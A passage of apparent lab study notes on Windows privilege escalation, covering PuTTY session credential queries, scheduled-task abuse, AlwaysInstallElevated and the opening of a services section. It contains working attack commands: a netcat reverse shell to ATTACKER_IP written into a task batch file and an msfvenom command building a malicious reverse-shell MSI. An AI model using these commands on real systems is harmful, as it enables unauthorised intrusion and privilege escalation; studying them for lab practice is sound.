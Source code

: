 ### Command
```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


## Scheduled Tasks
### Description

### Commands
- `schtasks`
- We can refine the search with something like the following command:
```shell-session
schtasks /query /tn vulntask /fo list /v
```
- **Task To Run** is what we are looking for but we can get other useful information
	- This Task To Run indicates to us that the files listed will run meaning if we have permission to edit the file then we can use it to gain higher privilege possibly.
- We can next check if we have permission to edit a file with the following:
```shell-session
icacls C:\<PATH_TO_FILE>
```
- Possible reverse shells:
```shell-session
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```


## AlwaysInstallElevated
### Description
Windows installer files also known as (.msi) are used to install applications on the system. Usually they run with the same permission level of whoever runs them but they can be configured to run with higher privileges. This is only possible if two registry values are set.

### Commands
1. Run the two following commands if both are set then we are good to go.
```shell-session
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```shell-session
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
2. Next if both are set then we can generate a malicious .msi file using msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.119.214 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
3. Now we need to get this file onto the victim's machine then run it.


## Windows Services
### Description
These services are managed by the Service Control Manager (SCM). The SCM is in charge of managing the state of service as needed.
